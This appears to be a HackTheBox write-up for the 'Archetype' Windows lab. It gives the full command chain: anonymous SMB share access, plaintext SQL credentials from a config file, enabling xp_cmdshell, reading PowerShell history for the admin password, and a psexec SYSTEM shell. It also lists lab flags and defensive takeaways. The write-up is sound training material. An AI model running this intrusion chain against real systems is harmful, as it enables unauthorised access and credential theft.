






# Archetype — HackTheBox Writeup

**Platform:** HackTheBox  
**Machine:** Archetype  
**OS:** Windows  
**Difficulty:** Very Easy  
**XP Earned:** 250  

---

## Overview

Archetype is a Windows machine that chains together three simple but realistic mistakes: an SMB share with no authentication, a config file leaking SQL credentials, and a PowerShell history file storing an admin password in plaintext. No exploitation needed — just careful enumeration.

---

## 1. Enumeration

### Nmap Scan

```bash
nmap -Pn -T5 10.129.139.58
```



Key open ports:

| Port | Service |
|------|---------|
| 135/tcp | MSRPC |
| 139/tcp | NetBIOS |
| 445/tcp | SMB (microsoft-ds) |
| 1433/tcp | MSSQL |

Two things stand out: **SMB on 445** and **MSSQL on 1433**. SMB is worth checking first since it often allows anonymous or guest access.

---

### SMB Enumeration

Listing available shares without a password:

```bash
smbclient -L \\10.129.139.58
```



Four shares are visible. Three are standard Windows administrative shares (`ADMIN$`, `C$`, `IPC$`). The fourth — **`backups`** — is non-administrative and accessible without credentials. That's the one to check.

---

### Reading the Backups Share

Connecting to the `backups` share anonymously:

```bash
smbclient //10.129.139.58/backups -N
```



A single file is present: `prod.dtsConfig`. Downloading and reading it:

```bash
get prod.dtsConfig
cat prod.dtsConfig
```



The config file contains a plaintext connection string with credentials:

```
User ID=ARCHETYPE\sql_svc
Password=M3g4c0rp123
```

---

## 2. Foothold — MSSQL Access

### Connecting to SQL Server

With the credentials recovered, connecting to the MSSQL instance using Impacket's `mssqlclient.py`:

```bash
mssqlclient.py ARCHETYPE/sql_svc:M3g4c0rp123@10.129.139.58 -windows-auth
```

Once connected, checking available commands reveals `enable_xp_cmdshell`. Enabling it requires running `RECONFIGURE` first:

```sql
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
```

`xp_cmdshell` is a built-in SQL Server stored procedure that lets you run OS commands directly from a SQL session. With it enabled, the SQL server is effectively a command shell.

---

## 3. Privilege Escalation

### PowerShell History File

On Windows, PowerShell saves every command typed by a user to a history file at a predictable path:

```
C:\Users\<user>\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```

This is a well-known privilege escalation check — users often type sensitive commands like passwords directly into PowerShell without realizing they're being logged. Reading it via `xp_cmdshell`:

```sql
xp_cmdshell "type C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt"
```

The file reveals the administrator's password in plaintext — typed during a previous session.

---

## 4. Getting SYSTEM — PsExec

With the administrator password in hand, using Impacket's `psexec.py` to get a full SYSTEM shell:

```bash
psexec.py administrator@10.129.139.58
```



`psexec.py` connects over SMB on port 445, uploads a small service binary, and drops into a `C:\Windows\system32>` shell running as **SYSTEM** — the highest privilege level on Windows.

---

## 5. Flags

```cmd
type C:\Users\sql_svc\Desktop\user.txt
type C:\Users\Administrator\Desktop\root.txt
```



| Flag | Value |
|------|-------|
| User | `3e7b102e78218e935bf3f4951fec21a3` |
| Root | `b91ccec3305e98240082d4474b848528` |

---

## Solved


**250 XP. Machine complete.**

---

## Attack Summary

| Step | Action |
|------|--------|
| Nmap | Found SMB (445) and MSSQL (1433) open |
| SMB | Anonymous access to `backups` share |
| dtsConfig | Plaintext SQL credentials: `sql_svc / M3g4c0rp123` |
| MSSQL | Logged in and enabled `xp_cmdshell` |
| PSReadLine | Found admin password in PowerShell history |
| PsExec | Got SYSTEM shell as Administrator |
| Flags | Extracted user and root flags |

---

## Key Takeaways

- **Never leave sensitive shares open** — anonymous SMB access is a critical misconfiguration.
- **Config files leak credentials** — `.dtsConfig` and similar files often store passwords in plaintext.
- **PowerShell logs everything** — `ConsoleHost_history.txt` is always worth checking during privilege escalation.
- **`xp_cmdshell` should always be disabled** — enabling it turns a database into a full command shell.

---

## Tools Used

| Tool | Purpose |
|------|---------|
| `nmap` | Port and service scanning |
| `smbclient` | Listing and accessing SMB shares |
| `mssqlclient.py` | Authenticating to MSSQL (Impacket) |
| `xp_cmdshell` | Running OS commands via SQL Server |
| `psexec.py` | Getting a SYSTEM shell (Impacket) |
| `winpeas` | Windows privilege escalation enumeration |
